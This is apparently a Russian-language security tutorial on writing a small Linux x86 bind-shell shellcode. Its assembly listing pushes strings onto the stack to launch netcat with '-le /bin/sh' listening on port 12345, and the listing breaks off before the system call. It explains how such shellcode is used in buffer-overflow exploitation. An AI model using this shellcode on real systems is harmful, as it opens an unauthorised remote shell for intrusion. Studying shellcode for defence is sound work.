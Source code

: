 
## Необходимые нам инструменты

- **Linux Debian x86/x86_64** (хотя мы и будем писать код под x86, сборка на машине x86_64 проблем вызвать не должна);
- **NASM** — свободный (LGPL и лицензия BSD) ассемблер для архитектуры Intel x86;
- **LD** — компоновщик;
- **objdump** — утилита для работы с файлами, которая понадобится нам для извлечения байт-кода из бинарного файла;
- **GCC** — компилятор;
- **strace** — утилита для трассировки системных вызовов.

Если бы мы создавали bind shell классическим способом, то для этого нам пришлось бы несколько раз дергать сетевой системный вызов `socketcall()`:

- net.h/SYS_SOCKET — чтобы создать структуру сокета;
- net.h/SYS_BIND — привязать дескриптор сокета к IP и порту;
- net.h/SYS_LISTEN — начать слушать сеть;
- net.h/SYS_ACCEPT — начать принимать соединения.

И в конечном итоге наш shell-код получился бы достаточно большим. В зависимости от реализации в среднем выходит 70 байт, что относительно немного... Но не будем забывать нашу цель — написать максимально компактный shell-код, что мы и сделаем, прибегнув к помощи **netcat**!


## Почему размер так важен для shell-кода?

Ты, наверное, слышал, что при эксплуатации уязвимостей на переполнение буфера используется принцип перехвата управления, когда атакующий перезаписывает адрес возврата функции на адрес, где лежит shell-код. Размер shell-кода при этом ограничен и не может превышать определенного значения.

### Код

Shell-код мы будем писать на чистом ассемблере, тестировать — в программе на С. Наша заготовка `bind_shell_1.nasm`, разбитая для удобства на блоки, выглядит следующим образом:

```nasm
; Блок 1
section .text
global _start
_start:

; Блок 2
xor edx, edx
push edx
push 0x35343332  ; -vp12345
push 0x3170762d
mov esi, esp

; Блок 3
push edx
push 0x68732f2f  ; -le//bin//sh
push 0x6e69622f
push 0x2f656c2d
mov edi, esp

; Блок 4
push edx
push 0x636e2f2f  ; /bin//nc
push 0x6e69622f
mov ebx, esp

; Блок 5
push edx
push esi
push edi
```